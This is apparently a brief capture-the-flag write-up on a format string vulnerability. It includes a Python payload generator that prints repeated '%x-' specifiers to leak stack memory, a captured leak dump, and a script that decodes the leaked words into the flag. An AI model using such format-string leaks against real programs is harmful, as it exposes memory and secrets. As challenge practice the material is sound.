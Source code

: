 This was challenging because it involves format string vulnrabilities. You print %x-%x enough times and get the token.

After that you need to bend over backwards to get the flag from this place.

```
# Print %x-%x-%x 40 times
for _ in range(20):
    print("%x-%x-", end="")

# Add a newline at the end
print()

```


```
x = "9d2d3b0-804b000-80489c3-f7f12d80-ffffffff-1-9d2b160-f7f20110-f7f12dc7-0-9d2c180-1-9d2d390-9d2d3b0-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-62633763-65616336-ffce007d-f7f4daf8-f7f20440-f7235000-1-0-f7dafce9-f7f210c0-f7f125c0-f7f12000-ffce7798-f7da068d-f7f125c0-8048eca-ffce77a4-0-f7f34f09"
s = ""
for i in x.split('-'):
    if len(i) == 8:
        a = bytearray.fromhex(i)

        for b in reversed(a):
            if b > 32 and b < 128:
                s += chr(b)

print(s)
```
